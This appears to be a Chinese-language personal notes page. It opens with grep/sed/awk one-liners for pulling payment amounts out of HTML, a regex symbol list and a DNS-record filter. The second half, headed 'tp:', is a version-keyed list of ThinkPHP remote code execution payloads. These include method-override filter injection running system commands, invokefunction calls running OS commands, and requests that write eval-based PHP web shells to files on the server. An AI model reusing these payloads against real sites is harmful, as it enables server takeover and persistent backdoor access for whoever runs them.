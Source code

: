 grep、sed提取匹配字符串:
cat * | grep "收款金额" | grep -oP '(?<=<li class="mui-table-view-cell mui-collapse-content"><p class="li">收款金额</p><p class="p">)(.+)(?=</p> </li>)' | awk '{sum+=$1} END {print sum}'
echo "aa11bb" | grep -oP '(?<=aa)(\d+)(?=bb)'
echo "aa11bba" | grep -oP '(?<=aa)(\w+)(?=bba)'

cat * | grep "收款金额" |  sed 's/<li class="mui-table-view-cell mui-collapse-content"><p class="li">收款金额<\/p><p class="p">\(.\+\)<\/p> <\/li>/\1/g' | grep -v "<" | awk {'print $1'}
echo "aa11bba" | sed 's/aa\([0-9]*\)bba/\1/g'
echo "11aa22" | sed 's/11\([a-zA-Z]*\)22/\1/g'

. 匹配除换行符以外的任意字符
\w 匹配字母或数字或下划线或汉字
\s 匹配任意的空白符
\d 匹配数字
\b 匹配单词的开始或结束
^ 匹配字符串的开始
$ 匹配字符串的结束

cat apidomains-ip | grep -E "\s+A\s+" | sort -u > apidomain-ips

tp:
版本号：5.0.8~5.0.19
payload:s=whoami&_method=__construct&filter&filter=system


版本号：5.0.20~5.0.23
payload：_method=__construct&filter[]=system&method=get&server[REQUSET_METHOD]=whoami

5.1.x php版本>5.5:
http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert


http://127.0.0.1/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1


http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>

5.0.x php版本>=5.4:
exp0 = '/index.php/?s=index/\\think\\template\driver\\file/write&cacheFile=zxc0.php&content=<?php @eval($_POST[xxxxxx]);?>'

exp1 = '/index.php/?s=/index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zxc1.php&vars[1][]=<?php @eval($_POST[xxxxxx]);?>'

exp2 = '/index.php/?s=/index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo \'<?php @eval($_POST[xxxxxx]);?>\'>zxc2.php'

使用版本：5.0.7~5.0.23
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令 (如 dir whoami)
写shell：
?s=/index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo \'<?php @eval($_POST[xxxxxx]);?>\'>zxc2.php'


?s=/index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zxc1.php&vars[1][]=<?php @eval($_POST[xxxxxx]);?>
